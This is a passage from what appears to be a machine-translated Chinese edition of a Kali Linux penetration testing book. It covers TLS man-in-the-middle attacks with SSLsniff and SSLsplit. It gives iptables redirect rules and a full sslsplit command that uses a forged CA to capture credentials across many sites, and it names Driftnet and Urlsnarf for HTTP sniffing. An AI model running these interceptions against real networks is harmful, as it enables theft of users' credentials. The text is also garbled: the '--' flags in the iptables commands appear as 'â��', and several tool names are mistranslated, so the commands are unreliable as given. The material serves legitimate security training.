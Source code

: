 ```

您可以显示`sslsniff.log`文件的内容并查看凭证（如以下屏幕截图所示）。这种攻击比 SSLstrip 成功的可能性更大，因为用户仍然会在浏览器的地址栏中看到 HTTPS 会话；而且，根据受信任的 CA 配置，他们可能没有什么警告，说明事情不正常。如果您使用的是真正的伪造证书（请参阅本教程了解可能发生的情况：[https://blog.leetsys.com/2012/01/18/insider-rogue-certification-authority-attack/](https://blog.leetsys.com/2012/01/18/insider-rogue-certification-authority-attack/) ），它甚至看起来是有效的。

![](https://www.packtpub.com/img/9781784395070/img/B03918_08_14.png)

查看 SSLsniff 的凭据刮取

#### SSLsplit

SSLsplit 遵循类似的方法；首先，您需要确保启用了 IP 转发。通常使用更多的`iptables`条目来拉入更多的端口，提供 NAT，并使用典型的重新映射端口`80`、`8080`、`443`和`8443`：

```
iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp â��dport 80 -j REDIRECT â��to-ports 8080
iptables -t nat -A PREROUTING -p tcp â��dport 443 -j REDIRECT â��to-ports 8443
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 80 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 443 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 8443 -j ACCEPT
iptables -I INPUT -p tcp -m state â��state NEW -m tcp â��dport 8080 -j ACCEPT
service iptables save 
```

现在，我们可以使用单个命令启动 SSLsplit。请注意，生成伪造证书没有劳动密集型开销；这非常有用，因为我们可以部署它来收集多个站点上的信息，而不必为每个站点生成假证书：

```
sslsplit -l connections.log -S ~/scrapes/ -k ~/sslsplit-keys/ca.key -c ~/sslsplit-keys/ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080 
```

与 SSLsniff 一样，输出指向一个日志文件，告诉您可以在`~/scrapes`文件夹中找到日志。

#### 其他 MITM 动机

我们可以以 Kali Linux 为基础实现大量的 MITM 攻击方法。如果您正在寻找仅限 HTTP 的 MITM（一些内部站点可能仍然使用未受保护的 HTTP），或者如果您正在寻找非常具体的内容，请查看**漂移网**（[http://www.ex-parrot.com/~chris/driftnet/](http://www.ex-parrot.com/~chris/driftnet/)和**Urlsnarf**。其中每一个都使用相同的 IP 转发和 ARPSopof 配置，但提供了一些不同于 SSLstrip 的功能。漂移网专注于从通过 Kali 虚拟机的 HTTP 流中提取图像和多媒体，这有助于拦截企业培训。Urlsnarf 只需拉取主机访问的所有网站，这可以帮助您映射显式访问且可能不会出现在 DNS recon 任务中的内部网站。

## 总结

* * *

虽然一些攻击获得了大量的新闻和荣誉，但推动社会对网络依赖的信任关系至关重要。对这些信任机制的攻击非常令人担忧，因为它们通常会让用户和应用开发人员不知道这种危害。本书中涵盖的以及 OWASP 前 10 名中所代表的许多其他威胁都是 web 应用所有者可以控制或有权补救的。然而，加密或基于 PKI 的攻击涉及其领域之外的其他方面，例如证书颁发机构的完整性、网络对 ARP 注入的容忍度以及应用自身域之外的局域网的完整性。在诸如 Heartbleed 和 POODLE 等攻击的情况下，即使是提供这些服务所依赖的软件也可能造成最终的危害：敏感数据和凭证的泄漏。

在本章中，我们简要介绍了如何扫描运行应用的软件中的已知漏洞。我们还看到了 SSLscan 和 SSLyze 在检测 PKI 细节方面的不同，以及我们如何使用它们和 Nmap 来识别弱点。我们还讨论了两种更普遍的感兴趣的攻击，如何利用 Heartbleed，以及如何以多种方式处理 MITM 攻击。

在[第 9 章](Mastering%20Kali%20Linux%20for%20Web%20Penetration%20Testing_split_000.html#)*、压力测试认证和会话管理*中，我们假设加密状态良好，更容易的途径是在应用端破坏认证。这些身份验证和会话管理攻击更侧重于特定应用配置和维护上的潜在缺陷，而实际上，这些缺陷往往更容易受到攻击。这些攻击还有另外一个好处，即使用合法用户将拥有的相同安全路径进入环境�� 对目标系统的持续测试和深入分析至关重要。[第 9 章](Mastering%20Kali%20Linux%20for%20Web%20Penetration%20Testing_split_000.html#)，*压力测试认证和会话管理，*也将标志着我们已经投资的一些工具集的回归，所以喝一杯，我们开始工作吧！**